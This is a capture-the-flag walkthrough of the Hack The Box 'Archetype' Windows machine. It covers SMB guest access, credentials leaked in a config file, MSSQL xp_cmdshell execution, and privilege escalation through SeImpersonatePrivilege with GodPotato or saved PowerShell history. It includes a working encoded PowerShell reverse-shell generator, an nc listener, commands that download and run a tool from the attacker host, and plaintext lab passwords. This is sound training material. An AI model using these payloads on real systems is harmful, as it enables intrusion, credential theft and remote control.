

---
tags:
  - Windows
  - SMB
  - Guest access
  - MSSQL
  - SeImpersonatePrivilege
---

... is a simple HTB machine where guest access to a `smb` service exposes a configuration file containing credentials to the `MSSQL service`, in which the user is allowed to execute operating system commands. To gain elevated privileges either read the `powershell` history to reveal the password to the `administrator` account, or abuse the dangerous `SeImpersonatePrivilege` to gain access to the `SYSTEM` account.

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this:
```bash
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-info: 
|   10.129.95.187:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2012-06-04T20:38:34
|_Not valid after:  2042-06-04T20:38:34
|_ssl-date: 2012-06-04T20:41:04+00:00; +3s from scanner time.
| ms-sql-ntlm-info: 
|   10.10.10.10:1433: 
|     Target_Name: ARCHETYPE
|     NetBIOS_Domain_Name: ARCHETYPE
|     NetBIOS_Computer_Name: ARCHETYPE
|     DNS_Domain_Name: Archetype
|     DNS_Computer_Name: Archetype
|_    Product_Version: 10.0.17763
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

```
As this output is quite verbose, i will break it down below:

- Port `135`: Windows RPC. Is used to enable client/server communication and is typically used by active directory. Usually not interesting for exploitation.
- Port `139` and `445`: Usually both indicate `SMB`. Port `139` relies on legacy `NetBIOS` (support for older machines), port `445` is a newer version using `TCP/IP`. `SMB` is highly interesting for exploitation, as it allows access to files / printers over the network.
- Port `1433`: Microsoft SQL server. Provides access to a database over the network, therefore a high priority target.
- Port `5985`: Port for `WinRM`. Comparable to `ssh`, usually exclusive to Windows. Interesting if credentials are found.

Doing standard reconnaissance on the `SMB` service using `nxc smb $IP`, i quickly find out that `Null Auth` (Guest access) is activated. Using this info, i list all the shares on that service using this `netexec` command:
```bash
nxc smb $IP -u 'a' -p '' --shares
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: the username to use. can be anything, as it defaults to the user 'Guest', if the name is not found.
# -p: the password to use. empty here
# --shares: a flag which tells nxc to return a list of available shares.
```

This is the output:
```bash
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
backups         READ            
C$                              Default share
IPC$            READ            Remote IPC
```

### Initial Exploitation
I am allowed to read the files on the shares `backups` and `IPC$`. The `IPC$` read permission isn't interesting, as it usually doesn't provide files. It is typically used for processes to communicate between each other. 
Therefore, i connect to the `backups` share using the following `smbclient` command:
```bash
smbclient -U 'a' -N //$IP/backups
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -U: username to use. here, 'a' is used as it defaults to the guest account.
# -N: use no password. is optional, as you can leave the password empty if it asks for it.
```

Within that, i identify i file called `prod.dtsConfig` and use `get` to download and view it. A quick google search reveals that a `.dtsconfig` file uses `XML` to automatically configure a `SQL Server Integration Service (SSIS)`. This file reveals a pair of credentials in this line:
```bash
#...
;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc
#...
```

Due to the nature of this file, i try to interact with the `Microsoft SQL Server` on port `1433` using these credentials. To do so, we need an `CLI` client for `mssql`.  Luckily, the `impacket` suite (provides many tools for pwning windows servers, written in `python`) has a tool called `mssqlclient`. On my `kali` machine, this suite is automatically installed, and to access it, i must prepend `"impacket-"` before the desired tool name (`e.g. impacket-getTGT, impacket-mimikatz, ...`). The full command for the `mssql` connection is displayed below with all its options:
```bash
impacket-mssqlclient "ARCHETYPE/sql_svc:M3g4c0rp123@$IP" -windows-auth
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# mssqlclient requires a target. the target is defined as:
# [[domain/]username[:password]@]<targetName or address>
# We can fill each of these entries using the info from the prod.dtsConfig file.
# -windows-auth: Use this if you are authenticating using a windows account (indicated by the presence of the domain ARCHETYPE). If there is no domain, it probably uses credentials from the SQL server itself.
```

After connecting to the `mssql` database it is a good idea to view the data it holds. To show the databases, the following `impacket-mssqlclient` command can be used:
```bash
enum_db
```
To connect to a selected database, the usual `use <db-name>` works. `mssql` does not provide a `list tables` command, so this SQL query lists the tables for the currently selected database:
```sql
select * from INFORMATION_SCHEMA.TABLES where TABLE_TYPE = 'BASE TABLE'
```
The values can then easily be read using the standard `select * from <table-name>` query.

The contents of the database were not as interesting. What was interesting though, is that the `is_trustworthy_on` flag was set to `1` on the `msdb`. A google search reveals that this flag means that you can execute code as the owner of the database. If the owner is `sa` (`SQL Server System Administrator`), this provides a clear path to privilege escalation. To find out who owns the databases, this command can be used:
```bash
enum_owner
```
And luckily enough, the user `sa` owns all databases!

After further research, this would be a possible privilege escalation path to `OS command execution` using `xp_cmdshell` IF your current user does NOT have  `sysadmin` privileges. But in this case, the user `sql_svc` does have them. To check if you can currently execute system commands, issue this SQL query:
```sql
SELECT IS_SRVROLEMEMBER('sysadmin');
```
In the case of the user `sql_svc`, this is set to `1`. Which means we can execute the following commands in the `mssql` window to execute arbitrary system commands:
```bash
enable_xp_cmdshell
# and
xp_cmdshell whoami
```
The first flag can be read using this command:
```bash
xp_cmdshell "type C:\Users\sql_svc\Desktop\user.txt"
```

As i would like a `shell` which is a bit more stable and interactive than the `xp_cmdshell`, i want to establish a reverse shell on this windows machine. To do so, i use the following python script `payload.py`:
```python
#!/usr/bin/env python
import base64
import sys

if len(sys.argv) < 3:
  print('usage : %s ip port' % sys.argv[0])
  sys.exit(0)

payload="""
$c = New-Object System.Net.Sockets.TCPClient('%s',%s);
$s = $c.GetStream();[byte[]]$b = 0..65535|%%{0};
while(($i = $s.Read($b, 0, $b.Length)) -ne 0){
    $d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);
    $sb = (iex $d 2>&1 | Out-String );
    $sb = ([text.encoding]::ASCII).GetBytes($sb + 'ps> ');
    $s.Write($sb,0,$sb.Length);
    $s.Flush()
};
$c.Close()
""" % (sys.argv[1], sys.argv[2])

byte = payload.encode('utf-16-le')
b64 = base64.b64encode(byte)
print("powershell -exec bypass -enc %s" % b64.decode())
```
This simple script takes your `IP` and a `port`, places them into the `powershell` reverse shell initiator (stored in the variable `payload` as a string), encodes the payload in `base64`, and returns a command on the screen which should be executed on the target machine.

It can be used with this CLI command:
```bash
python3 ./script.py <my-IP> 1337
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# <my-IP>: This feeds the provided IP into the reverse shell powershell command. find your own IP with `ip a`, located at `tun0` if using the VPN
# 1337: port 1337 is used for a connection, but can be an arbitrary port.
```

This returns a `powershell` command in the form of:
```powershell
powershell -exec bypass -enc CgAkAG...
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -exec: change the execution policy to "bypass". This means dont block anything, run this code no matter the policy
# -enc: the next argument is encoded in base64
```

Before executing this command on the target, make sure to start the `nc` listener:
```bash
nc -lvnp 1337
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -l: listen for inbound connects
# -v: verbose to get more info
# -n: numeric IP addresses, dont use DNS
# -p: specify listening port (1337)
```

And lastly, send the command into the `xp_cmdshell` to receive a more stable shell:
```bash
xp_cmdshell "powershell -exec bypass -enc CgAkAG..."
```
It is also nice that you can simply re-establish the connection by executing this command again if it gets lost

### Privilege Escalation
For windows machines, my first guess is always to find out what privileges my user has, as there are many options to enable privilege escalation if they are mis-configured. To find these privileges, the command `whoami /all` (or more specifically, `whoami /priv`) can be used. It outputs the following for the current user:


This privilege means that the current user is allowed to impersonate (act as) a security token which belongs to another user. If you manage to get a process to connect to you which has high privileges, you essentially can execute commands as that privileged process. There are a few tools which automate the exploitation of forcing a high-privileged process to connect to you (e.g. endpoint you control), capturing its token and impersonating it.

To execute this privilege escalation strategy, i use the [GodPotato](https://github.com/BeichenDream/GodPotato) exploit. I visit the `github` and look at the releases. There, i can find 3 `.exe` files, `GodPotato-NET2.exe`, `GodPotato-NET35.exe`, and `GodPotato-NET4.exe`. These different numbers stand for the `.NET` version running on the target. I quickly find out which version is running on the machine using this command in the reverse shell:
```powershell
[System.Environment]::Version
```
The output tells me that i need the `GodPotato-NET4.exe`:
```powershell
Major  Minor  Build  Revision
-----  -----  -----  --------
4      0      30319  42000 
```

Now i need to get the binary onto the target machine. Usually, i can use this `wget` command to download it and save it into the file `test.exe`:
```powershell
wget -O test.exe https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe
```
But this doesn't work on the machine, as it is not allowed to interact with IPs on the internet.
> **_NOTE:_**  I verified this by going to [interact.sh](https://app.interactsh.com/), and trying the command `wget ...oast.fun`. It works on my local machine but not on the target.

So, i simply `wget` the `GodPotato-NET4.exe` onto my local machine, and start a web server which offers it for download:
```bash
python3 -m http.server 1338
```
On the target, i can download the executable into the `C:\backups` directory like this:
```bash
wget -O test.exe http://<my-IP>:1338/test.exe
```
And it worked! I can now use the executable to issue any `powershell` command which gets executed as the user `nt authority\system` (has higher privileges as `Administrator`):
```powershell
./test.exe -cmd "whoami"
```
To get a reverse shell as the user `NT AUTHORITY\SYSTEM` the previous steps of creating a `b64` encoded reverse shell command and executing it can be done again here, but don't forget to use a different port, as port `1337` is used for the `archetype\sql-svc` user.

### Alternative approach
I have found out that there is an alternative privilege escalation approach to this challenge. In the home folder `C:\Users\sql-svc`, hidden files and folders exist. These can be viewed with `dir -Force`. And deep within these folders there is a file which is similar to the `.bash_history` file.
`TLDR`, you can almost always use this command to read the `powershell history` in CTFs:
```powershell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

This file stores the credentials to the administrator account:
```powershell
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

Using these credentials, an `winrm` connection can be established as follows:
```bash
evil-winrm -i $IP -u Administrator -p 'MEGACORP_4dm1n!!'
```
(I still like the first approach more, as `SYSTEM` is more powerful than `administrator`).